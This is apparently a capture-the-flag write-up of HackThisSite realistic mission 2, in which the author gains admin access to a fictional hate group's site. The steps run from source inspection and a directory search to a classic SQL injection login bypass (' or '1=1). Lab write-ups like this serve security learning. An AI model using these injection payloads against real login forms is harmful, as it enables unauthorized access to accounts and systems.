# Chicago American Nazi Party

Racist pigs are organizing an 'anti-immigrant' rally in Chicago. Help anti-racist activists take over their website!
From: DestroyFascism

Message: I have been informed that you have quite admirable hacking skills.
Well, this racist hate group is using their website to organize a mass gathering of ignorant racist bastards.
We cannot allow such bigoted aggression to happen.
If you can gain access to their administrator page and post messages to their main page, we would be eternally grateful.

So the Challenge website : https://www.hackthissite.org/missions/realistic/2/
our goal is to get the admin page and post message 

### Steps of thinking 
1) Read Source code see if any directories looks suspicious
2) check robots.txt
3) do directory search 
4) traverse the headers see if anything is useful 

### Checking the Source code :

in the source code there is a link at the bottom pointing to **update.php**
```html
<center>
  <a href="update.php"><font color="#000000">update</font></a>
</center>
```
now checking update.php it asks for username and password 
```html
<html>
<head>
<title>update</title>
</head>
<body>
enter your username and password, white brother!<br />
<br />
<form action="update2.php" method="post">
  username<br />
  <input type="text" name="username">
  <br />
  <br />
  password<br />
  <input type="password" name="password">
  <br />
  <br />
  <input type="submit" name="log in">
</form>
</body>
</html>
```
now we have 2 options 
1) check for clues about the creds
2) brute force the login page

Now trying default username and password as **admin admin**
but the output 
```html
Invalid username/password. Get the fuck out. 
```
so lets check for more clues 

### Checking Robots.txt
after checking the source code lets try to check **robots.txt** but the file is not there so its not useful 

### do directory search 
give us bunch of directories but we already have found them 

### Testing SQL injection 
so we haven't test if the login is vulnerable to sql injection or not 
by adding the command below in username and password field 

```text
' or 'a=a'
```
we have got invalid username and password plus **SQL Error** so lets test a vaild sql injection command 

```text
' or '1=1
```
now the above statment will complete the following example
```text
Select user from table name where user = '' or '1=1'
```
same apply for the password which will be true because of the part we have added and we are good to go :-D 
so this will execute and redirect us to hack this site main page to complete the challenge 
